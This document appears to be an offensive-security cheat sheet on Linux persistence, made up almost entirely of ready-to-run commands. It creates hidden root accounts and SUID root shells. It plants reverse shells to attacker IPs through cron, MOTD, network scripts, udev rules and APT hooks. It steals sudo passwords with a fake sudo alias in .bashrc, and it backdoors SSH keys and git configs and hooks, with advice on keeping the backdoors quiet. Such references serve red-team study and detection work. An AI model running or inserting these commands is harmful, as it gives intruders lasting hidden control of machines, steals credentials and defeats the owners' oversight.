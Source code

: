 # Linux - Persistence

## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Add a root user

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab - Reverse shell

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Backdooring a user's bash_rc

(FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

or add the following line inside its .bashrc file.

```powershell
$ chmod u+x ~/.hidden/fakesudo
$ echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
```

and create the `fakesudo` script.

```powershell
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```

## Backdooring a startup service

- Edit `/etc/network/if-up.d/upstart` file
    
    ```bash
    RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
    sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
    ```
    

## Backdooring Message of the Day

- Edit `/etc/update-motd.d/00-header` file
    
    ```bash
    echo 'bash -c "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"' >> /etc/update-motd.d/00-header
    ```
    

## Backdooring a user startup file

Linux, write a file in `~/.config/autostart/NAME_OF_FILE.desktop`

```powershell
In : ~/.config/autostart/*.desktop

[Desktop Entry]
Type=Application
Name=Welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1.  `ssh-keygen`
2.  write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3.  set the right permission, 700 for ~/.ssh and 600 for authorized_keys

## Backdooring Git

Backdooring git can be a useful way to obtain persistence without the need for root access.
Special care must be taken to ensure that the backdoor commands create no output, otherwise the persistence is trivial to notice.

### Git Configs

There are multiple [git config variables](https://git-scm.com/docs/git-config) that execute arbitrary commands when certain actions are taken.
As an added bonus, git configs can be specified multiple ways leading to additional backdoor opportunities.
Configs can be set at the user level (`~/.gitconfig`), at the repository level (`path/to/repo/.git/config`), and sometimes via environment variables.

`core.editor` is executed whenever git needs to provide the user with an editor (e.g. `git rebase -i`, `git commit --amend`).
The equivalent environment variable is `GIT_EDITOR`.

```properties
[core]
editor = nohup BACKDOOR >/dev/null 2>&1 & ${VISUAL:-${EDITOR:-emacs}}
```

`core.pager` is executed whenever git needs to potentially large amounts of data (e.g. `git diff`, `git log`, `git show`).
The equivalent environment variable is `GIT_PAGER`.

```properties
[core]
pager = nohup BACKDOOR >/dev/null 2>&1 & ${PAGER:-less}
```

`core.sshCommand` is executed whenever git needs to interact with a remote *ssh* repository (e.g. `git fetch`, `git pull`, `git push`).
The equivalent environment variable is `GIT_SSH` or `GIT_SSH_COMMAND`.

```properties
[core]
sshCommand = nohup BACKDOOR >/dev/null 2>&1 & ssh
[ssh]
variant = ssh
```

Note that `ssh.variant` (`GIT_SSH_VARIANT`) is technically optional, but without it git will run `sshCommand` *twice* in rapid succession. (The first run is to determine the SSH variant and the second to pass it the correct parameters.)

### Git Hooks

[Git hooks](https://git-scm.com/docs/githooks) are programs you can place in a hooks directory to trigger actions at certain points during git's execution.
By default, hooks are stored in a repository's `.git/hooks` directory and are run when their name matches the current git action and the hook is marked as executable (i.e. `chmod +x`).
Potentially useful hook scripts to backdoor:

- `pre-commit` is run just before `git commit` is executed.
- `pre-push` is run just before `git push` is executed.
- `post-checkout` is run just after `git checkout` is executed.
- `post-merge` is run after `git merge` or after `git pull` applies new changes.

In addition to spawning a backdoor, some of the above hooks can be used to sneak malicious changes into a repo without the user noticing.

Lastly, it is possible to globally backdoor *all* of a user's git hooks by setting the `core.hooksPath` git config variable to a common directory in the user-level git config file (`~/.gitconfig`). Note that this approach will break any existing repository-specific git hooks.

## Additional Persistence Options

- [SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004)
- [Compromise Client Software Binary](https://attack.mitre.org/techniques/T1554)
- [Create Account](https://attack.mitre.org/techniques/T1136/)
- [Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
- [Create or Modify System Process](https://attack.mitre.org/techniques/T1543/)
- [Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/)
- [Event Triggered Execution: Trap](https://attack.mitre.org/techniques/T1546/005/)
- [Event Triggered Execution](https://attack.mitre.org/techniques/T1546/)
- [Event Triggered Execution: .bash_profile and .bashrc](https://attack.mitre.org/techniques/T1546/004/)
- [External Remote Services](https://attack.mitre.org/techniques/T1133/)
- [Hijack Execution Flow](https://attack.mitre.org/techniques/T1574/)
- [Hijack Execution Flow: LD_PRELOAD](https://attack.mitre.org/techniques/T1574/006/)
- [Pre-OS Boot](https://attack.mitre.org/techniques/T1542/)
- [Pre-OS Boot: Bootkit](https://attack.mitre.org/techniques/T1542/003/)
- [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/)
- [Scheduled Task/Job: At (Linux)](https://attack.mitre.org/techniques/T1053/001/)
- [Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)
- [Server Software Component](https://attack.mitre.org/techniques/T1505/)
- [Server Software Component: SQL Stored Procedures](https://attack.mitre.org/techniques/T1505/001/)
- [Server Software Component: Transport Agent](https://attack.mitre.org/techniques/T1505/002/)
- [Server Software Component: Web Shell](https://attack.mitre.org/techniques/T1505/003/)
- [Traffic Signaling](https://attack.mitre.org/techniques/T1205/)
- [Traffic Signaling: Port Knocking](https://attack.mitre.org/techniques/T1205/001/)
- [Valid Accounts: Default Accounts](https://attack.mitre.org/techniques/T1078/001/)
- [Valid Accounts: Domain Accounts 2](https://attack.mitre.org/techniques/T1078/002/)

## References

- [@RandoriSec - https://twitter.com/RandoriSec/status/1036622487990284289](https://twitter.com/RandoriSec/status/1036622487990284289)
- https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/
- http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html
- http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/
- [Pouki from JDI](#no_source_code)